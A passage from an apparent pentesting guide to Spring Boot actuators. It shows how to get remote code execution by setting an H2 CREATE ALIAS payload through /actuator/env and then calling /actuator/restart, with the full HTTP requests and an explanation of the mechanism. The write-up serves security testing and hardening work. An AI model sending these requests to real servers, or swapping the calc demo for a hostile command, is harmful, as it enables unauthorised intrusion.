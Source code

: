 - `/restart` endpoint is available
- `com.h2database.h2` dependency is used

You can gain code execution with the following steps:

1. Set the `spring.datasource.hikari.connection-test-query` property

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "spring.datasource.hikari.connection-test-query",
        "value": "CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"
    }
    ```

    The `T5` method in the payload must be renamed (to `T6`) after the command is executed before it can be recreated and used. Otherwise, the vulnerability will not trigger the next time an application is restarted.

2. Restart the application:

    ```http
    POST /actuator/restart HTTP/1.1
    Content-Type: application/json
    ```

How it works:

- `spring.datasource.hikari.connection-test-query` is set to a malicious SQL statement that use CREATE ALIAS to create a custom function
- `spring.datasource.hikari.connection-test-query` correspondes to the `connectionTestQuery` configuration of the HikariCP database connection pool and define the SQL statement to be executed before a new database connection
- Restart establishes a new database connection
- The custom function is executed

References:
- [Spring Boot Vulnerability Exploit Check List: restart h2 database query RCE](https://github.com/LandGrey/SpringBootVulExploit#0x06restart-h2-database-query-rce)
- [Writeup: Remote Code Execution in Three Acts: Chaining Exposed Actuators and H2 Database Aliases in Spring Boot 2](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)

# gateway

The [gateway](https://cloud.spring.io/spring-cloud-gateway/reference/html/#actuator-api) actuator endpoint lets you monitor and interact with a Spring Cloud Gateway application. In other words, you can define routes for the application and use `gateway` actuator to trigger requests according to these routes.

## SSRF
